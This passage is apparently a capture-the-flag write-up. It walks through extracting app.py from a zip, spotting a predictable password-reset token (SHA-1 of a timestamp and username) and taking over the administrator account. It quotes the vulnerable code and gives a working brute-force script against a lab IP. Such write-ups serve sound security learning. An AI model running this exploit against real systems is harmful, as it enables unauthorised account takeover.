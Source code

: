 There is a file called `index.zip`

### Zip extraction

There are 2 files inside
1. flag2.txt - containing a flag. 4 more to go
2. app.py - python code that looks like a server code


### Source code analysis and port 8080 exploitation

Turns out that's the code for site on port 8080 - we've discovered few endpoints
- `/administrator` - admin panel with login form
- `/password_reset`
- `/forgot_password`

And about those 2 I'd like to talk. We'll be exploiting reset password functionality

A brief overlook on how it works
- Go to `/forgot_password` and put the username there
- If user is found, website generates token off it's username and current date (Timezone is UTC - and it's very important) using this code (lines 96-98)
```py
value = datetime.datetime.now()
lnk = str(value)[:-4] + " . " + username.upper()
lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()				
```
- Then, go to `/password_reset` and pass the token there - you can reset your password

Sadly, in `app.py` there is no parameter name mentioned - but a quick brute-force gave me `token` (pretty straight-forward)

We can't intercept the token in any way, so we need to generate it on out own. No one can send reqest and then run the code in exact same time - so we gotta write the script doing both

As there can also be some difficulties with matching exacly milisecods, we need to brute-force

I've wrote this script - it gave me the token, but after 2 or 3 tries so if it doesn't pass it at first, re-run it
```py
import os
import requests
import hashlib
import pytz


from datetime import datetime

def generateToken(username, ip, date):    
    req = requests.post(f"http://{ip}/forgot_password", data = {"username": username})
    
    lnk = str(date) + " . " + username.upper()
    token = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
    return token


username =  "administrator"
ip = "10.10.39.129:8080"

for ms in range(100):
    ms_str = f"{ms:02}"
    time = datetime.utcnow().strftime('%Y-%m-%d %H:%M:%S.')+ms_str
    token = generateToken(username, ip, time)
    
    req = requests.get(f"http://{ip}/password_reset?token=" + token, verify=False)
    if "<h2>Invalid token</h2>" not in req.text:
        print("Token: ", token)
        break
```